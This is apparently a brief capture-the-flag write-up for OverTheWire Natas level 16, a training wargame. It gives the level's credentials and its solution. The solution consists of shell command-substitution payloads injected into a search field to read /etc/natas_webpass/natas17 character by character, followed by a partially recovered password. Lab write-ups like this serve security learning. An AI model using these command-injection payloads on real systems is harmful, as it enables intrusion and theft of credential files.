 # Level 15 → Level 16

## Details
Username: `natas16`<br />
Password: `TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V`<br />
URL:      http://natas16.natas.labs.overthewire.org

## Solution

# exstract spesific letter from password
`$(cut -c 1-1 /etc/natas_webpass/natas17)`


# convert numbers to chars
`$(printf \\$(printf %03o $((97+$(cut -c 8-8 /etc/natas_webpass/natas17)))))`

https://stackoverflow.com/questions/12855610/shell-script-is-there-any-way-converting-number-to-char


and then extract just one letter!
and do it like "blind sql injection"

## Password for the next level:
```

```
`"xkeuche_sbnkbvh_ru_ksib_uulmi_sd"`
`"xkeuche_sbnkbvh_ru_ksib_uulmi7sd"`
`"xkeuche_sbnkbvh_ru_ksib9uulmi7sd"`
`"xkeuche_sbnkbvh_ru7ksib9uulmi7sd"`
`"xkeuche_sbnkbvh1ru7ksib9uulmi7sd"`
`"xkeuche0sbnkbvh1ru7ksib9uulmi7sd"`